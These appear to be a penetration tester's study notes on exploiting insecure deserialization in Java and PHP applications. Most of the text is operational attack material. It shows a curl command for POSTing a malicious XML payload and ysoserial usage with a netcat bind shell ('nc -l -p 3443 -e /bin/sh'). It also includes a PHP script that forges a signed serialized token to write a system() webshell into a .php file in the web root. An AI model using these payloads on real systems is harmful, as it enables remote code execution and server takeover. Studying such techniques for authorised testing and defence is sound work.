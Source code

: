 ### When a cookie appears to be b64 - decode in burp (to get hex output) and look for nullbytes in the string, this is a good indication that the object is serialized  
 ** Once you run through the steps to generate the payload, we simply replace the serialized cookie with our payload
 
### To lauch a malicious .xml at a page: (NOTE a page full of errors being returned does not indicate the payload did not execute, check your listener :) )
 ** `curl http://target.site/orders.xhtml -X POST -H 'Content-Type: application/xml' --data @payload.xml`
 
### `ysoserial` usage  
 ** Either identify exactly which library is available OR run through each payload  
 ** Base 64 encode your output, so pipe into base64 `<ysoserial and args> | base64`  
 ** `java -jar ysoserial.jar <payload type> <command>` EG `java -jar ysoserial.jar Spring1 'nc -l -p 3443 -e /bin/sh'`  
 
### Functions to look for in source code as a trampoline gadget to jump to from `unserialize` function
 ** `__wakeup`
 ** `__destruct` - works because of how the below code writes to file - we can control what goes in there:
 ```
 function __destruct() {
    \/\/ Loogging access 
    $fd = fopen($this->logfile, 'a'); 
    fwrite($fd, $_GET['action'].\":\".$this->uuid.' by '.$this->owner.\"\
\");
```
We can see the above code exploited as below, let's say we discovered an LFI that allowed us to obtain the source code used for serialization, thus allowing us to serialize the payload to be executed by `__destruct` 
```
<?php
define('KEY', "ooghie1Z Fae8aish OhT3fie6 Gae2aiza");

function sign($data) {
  return hash_hmac('md5', $data, KEY);
}
function tokenize($user) {
    $token = urlencode(base64_encode(serialize($user))); 
    $token.= "--".sign($token); 
    return $token;
}
class File {
  public $owner,$uuid, $content; //change to public $owner,$uuid='<?php system($_GET["c"]);?>';
  public $logfile = "/var/www/logs/application.log"; //change to public $logfile = "/var/www/zzz.php
}
echo tokenize(new File());
?>
```
The above spits out a token when ran which we can then send in a request to the server to be deserialized - we need to be careful that we send to the correct endpoint to ensure correct handling.

